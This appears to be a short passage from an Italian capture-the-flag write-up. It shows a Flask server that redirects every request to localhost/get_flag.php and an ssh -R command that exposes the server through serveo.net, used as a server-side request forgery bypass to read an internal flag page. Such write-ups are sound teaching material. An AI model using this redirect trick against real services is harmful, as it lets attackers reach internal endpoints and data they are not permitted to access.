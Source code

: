 Ho creato un server Flask

```jsx
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def redirect_to_localhost():
    return redirect("http://localhost/get_flag.php", code=302)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=3000)
```

Questa fa un redirect a localhost/get_flag.php

Attraverso il comando ssh -R 80:localhost:3000 [serveo.net](http://serveo.net/) Avvio il serer serveo.net sulla porta 3000. In questo modo tutte le richieste fatte a questo server saranno reindirizzate al localhost/get_flag.php